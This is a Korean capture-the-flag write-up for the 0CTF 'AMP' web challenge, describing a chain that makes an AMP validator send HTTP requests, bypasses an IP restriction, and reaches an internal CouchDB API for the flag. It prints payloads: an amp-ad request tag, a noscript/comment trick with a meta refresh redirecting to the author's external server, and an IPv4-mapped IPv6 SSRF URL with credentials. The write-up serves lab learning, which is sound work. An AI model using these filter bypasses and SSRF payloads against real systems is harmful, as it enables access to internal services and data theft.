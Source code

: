 ```yaml
---
layout: post
title:  "AMP2020 writeup"
author: "hkkiw0823"
comments: true
tags: [ctf, web]
---
```


라온화이트햇 핵심연구팀 강인욱([iwkang@raoncorp.com](mailto:iwkang@raoncorp.com)


0CTF에서 나온 문제중 하나로 AMP(Accelerated Mobile Pages)를 사용하는 문제이다. AMP 는 빠른 모바일 페이지를 위해 구글에서 만든 포맷이다.

그래서 몇가지 제약사항이 있다.

1. CSS는 모두 인라인으로 지정해야 하며 50KB를 넘을 수 없다.
2. 스크립트는 <script async src="[https://cdn.ampproject.org/v0.js](https://cdn.ampproject.org/v0.js)"></script> 만 사용해야 하며, 추가적인 amp 태그를 사용하려면 amp에서 제공하는 스크립트를 추가하면 사용할 수 있다.
3. 기본 HTML 태그 대신 <amp-img>, <amp-anim>, <amp-video>같은 AMP 전용 태그를 사용한다.

플래그를 얻기 위해선 다음과 같은 루트를 타야한다.

1. AMP Validator에서 HTTP Request를 발생시킨다.
2. IP제한을 우회하고 HTTP Request를 발생시켜서 내부 CouchDB Web API에 접속할 수 있도록 한다. 
3. CouchDB에서 플래그를 가져온다.

AMP 관련 문서 : [https://amp.dev/](https://amp.dev/)

위 링크에서 설명하기를 추가적인 AMP 태그를 사용하려면 아래와 같이 custom-element 를 추가해주고 관련 스크립트를 추가해줘야 한다고 나와있다.

```jsx
<script async custom-element="amp-ad" src="https://cdn.ampproject.org/v0/amp-ad-0.1.js"></script>
```

문서에서는 무조건 추가해주어야 한다고 나와있어서 아래의 실제 문제 출제자의 풀이처럼 이용하지는 않았다. (기존 버전과 호환성을 위해 스크립트를 추가를 안해줘도 동작을 한다나...)

출제자가 사용한 amp-ad 태그( HTTP Request )

```
  <amp-ad
    width="728"
    height="90"
    type="f1h"
    data-section-id="100"
    data-slot="107"
    data-custom='{"my_custom_param":"my_custom_value"}'
    data-pubnetwork-lib="https://YOUR_WEBSITE"
  >
  </amp-ad>
```

스크립트를 실행시킬 방법을 찾기위해 meta 태그를 이용해 내 서버로 이동시키려고 하였고 삽질끝에 아래와 같이 이동시킬 수 있었다.

```html
<!doctype html>
<html amp lang="en">
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js"></script>
    <title>Hello, AMPs</title>
    
    
      <noscript> <style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style> 
      <!--  </noscript> <meta http-equiv="refresh" content="0;url=http://wuq.kr/zxdasdzcz"> --></noscript>
    
    <link rel="canonical" href="https://amp.dev/documentation/guides-and-tutorials/start/create/basic_markup/">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style>
  </head>
  <body>
    <h1>Welcome to the mobile web</h1>
  </body>
</html>
```

자바스크립트를 사용할 수 있으면 내부 서버에 데이터를 요청할 수 있으므로 CouchDB Web API에 접근할 수 있다.

APM2020 NodeJS 소스에서 IP 우회를 하려면 아래와 같이 할 수 있다.

```html
const parsed = new URL(url)
const parsed2 = new UrlParse(url)

(isIp(host2) && IP.isPublic(host) && IP.isPublic(host2))
```

```html
http://${database}:${password}@[::ffff:ac1e:103]:5984/
```

그리고 NodeJS axios 에서 인자에 배열을 이용해 옵션을 추가할 수 있으므로 GET, POST, PUT 메소드 등을 이용해 CouchDB 에서 플래그를 가져오면 된다.
